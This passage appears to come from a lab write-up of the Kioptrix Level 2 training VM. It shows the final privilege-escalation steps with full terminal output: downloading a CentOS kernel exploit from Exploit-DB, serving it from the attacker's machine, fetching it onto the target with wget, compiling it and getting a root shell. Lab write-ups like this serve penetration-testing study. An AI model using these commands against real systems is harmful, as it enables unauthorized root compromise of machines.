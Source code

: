 ```bash
[-] Hostname:
kioptrix.level2
...
```
This script consists of mostly just commands that can be ran manually, but having them in a script saves some time. Some of the more in-depth scripts wouldn't work on this machine due to incompatabilities with the version of bash. In any case, looking through the output, the use of CentOS 4.5 (released in 2007) warrented some investigation. There are some kernel exploits for this version, in in particular stood out - Ring0 privesc using ip_append_data(): https://www.exploit-db.com/exploits/9542.

### 7. Set up the exploit
In order to exploit, the program has to be compiled and ran locally. This can be done as the machine already has gcc installed. So it's just a matter of retrieving the file, hosting it, wgetting it onto the machine and compiling.
```bash
kali@kali:~/Desktop/osc/kiol2$ wget https://www.exploit-db.com/raw/9542 -O ring0exploit.c
--2020-10-27 03:56:47--  https://www.exploit-db.com/raw/9542
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.13
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.13|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2643 (2.6K) [text/plain]
Saving to: ‘ring0exploit.c’

ring0exploit.c                                   100%[==========================================================================================================>]   2.58K  --.-KB/s    in 0s      

2020-10-27 03:56:49 (51.8 MB/s) - ‘ring0exploit.c’ saved [2643/2643]

kali@kali:~/Desktop/osc/kiol2$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

### 8. Escalate to root
On the CentOS machine:
```bash
wget http://10.1.1.74:8000/ring0exploit.c
--00:49:49--  http://10.1.1.74:8000/ring0exploit.c
           => `ring0exploit.c'
Connecting to 10.1.1.74:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,643 (2.6K) [text/plain]

100%[====================================>] 2,643         --.--K/s             

00:49:49 (193.89 MB/s) - `ring0exploit.c' saved [2643/2643]

bash-3.00$ gcc ring0exploit.c -o exploit
gcc ring0exploit.c -o exploit
ring0exploit.c:109:28: warning: no newline at end of file
bash-3.00$ ./exploit
./exploit
sh-3.00# whoami
whoami
root
```